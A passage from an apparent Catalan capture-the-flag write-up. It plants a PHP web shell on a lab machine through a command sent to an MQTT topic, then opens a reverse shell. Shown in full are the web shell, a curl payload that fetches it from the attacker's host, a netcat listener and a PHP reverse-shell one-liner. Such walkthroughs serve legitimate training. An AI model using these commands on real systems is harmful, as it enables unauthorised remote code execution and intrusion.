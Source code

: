 Afegim el paràmetre **name** al JSON enviat al topic `server/command/new`.

![command2](../../../assets/images/solar/image-29.png)

També afegim el paràmetre `cmd` i ja no rebem cap error.

En la programació de `/server.php` veiem que la comanda és filtrada per la funció `escapeshellcmd` de PHP. Segons el manual de PHP, aquesta funció...

```text
Els següents caràcters són precedits per una barra invertida: #&;`|*?~<>^()[]{}$\, \x0A i \xFF. ' i " són escapats únicament si no estan emparellats.
```

Preparem un fitxer PHP i aixequem un servei al port 8000.

```bash
echo '<?php echo(exec($_GET["cmd"])); ?>' > shell.php
python3 -m http.server 8000
```

i enviem el següent payload en el topic `server/command/new` per pujar el fitxer `shell.php` (creat anteriorment) a la carpeta `/var/www/solar.nyx/records/`, ja que altres carpetes no ens funcionen i vam veure que un script PHP (`/var/www/solar.nyx/records/index.php`) esborra fitxers en aquesta carpeta.

```json
{
  "name": "upload-revshell",
  "cmd": "curl -o /var/www/solar.nyx/records/shell.php http://192.168.1.116:8000/shell.php"
}
```

Executem la comanda `upload-revshell` des de la pàgina `https://www.sunfriends.nyx/server.php` i observem com es descarrega el `shell.php` preparat.

```bash
nc -lvnp 12345
```

Enviem el següent `revshell` a través del paràmetre `cmd` URL encodejat.

```bash
php -r '$sock=fsockopen("192.168.1.116",12345);exec("/bin/bash <&3 >&3 2>&3");'
```
